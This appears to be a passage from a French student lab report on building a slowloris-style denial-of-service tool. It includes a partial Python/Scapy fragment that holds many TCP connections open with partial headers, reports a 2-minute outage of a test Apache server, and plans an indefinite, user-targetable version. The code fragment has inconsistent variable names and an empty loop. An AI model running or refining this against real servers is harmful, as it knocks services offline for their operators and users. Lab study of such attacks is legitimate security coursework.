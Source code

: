 \documentclass{article}
\begin{document}
\begin{lstlisting}
    print(port_list)

    # This will initialise each individual TCP socket
    for p in range(list_size):
        seqNumList[p], seqAckList[p] = httpRequest(ip_address,port_list[p], seqNumList[p])
    
    # This treatment will probably be changed later
    for n in range(0):
	for p in range(list_size):
            ACK = ip/TCP(sport=p,
                         dport=server_port,
                         flags="A",
                         seq=seqNumList[p],
                         ack=seqAckList[p])
            MYNUMBER=ACK/"X-a: {}\r\r".format(random.randint(1,5000)).encode("utf-8")
            answerMyNumber = sr1(MYNUMBER)
            seqNumlist[p]+= 1
            seqAcklist[p] = answerMyNumber.seq
        
if __name__== "__main__":
    main()
\end{lstlisting}

\subsection{Nouveaux résultats}
Nous avons déjà démontré le fonctionnement de \textit{request\_http} dans le dernier rendu. La procédure pour
celui-ci était de le reformater le code dans une fonction employée lors de l'attaque; ça on a bien exécuté.

Avec le code montré en dessus, on a trouvé des bons résultats en termes du attaque. Un serveur Apache 2.4.7 sur Ubuntu 14.05 
a été mis en place sur une machine virtuelle pour que l'on puisse essayer l'attaque. Le serveur Web est une
installation d'Apache. En appliquant l'attaque, on a initialisé 150 \textit{sockets}. On n'a pas mis
encore en place la structure qui réalise les itérations, mais juste en initialisant les connexions on a déjà
pu réaliser un \textbf{DoS} d'environ 2 minutes.


\section{Travaux futurs}
Avec la forme la plus primitive de l'attaque mise en place, nos prochaines démarches seront de mettre en place
la structure logique complète. On travaillera sur l'étape responsable d'implémenter l'itération des connexions
ouvertes pour que l'on puisse exécuter le \textbf{DoS} pour une durée indéterminée. Avec l'aspect fonctionnel
terminé, on rajoutera quelques \textit{features} de qualité de vie; on veut que l'usager puisse 
spécifier comme arguments certaines variables comme la quantité de \textit{sockets} à ouvrir, l'adresse
IP ou nom de domaine de la cible voulue et quelques autres options que l'on trouve utiles.
\end{document}
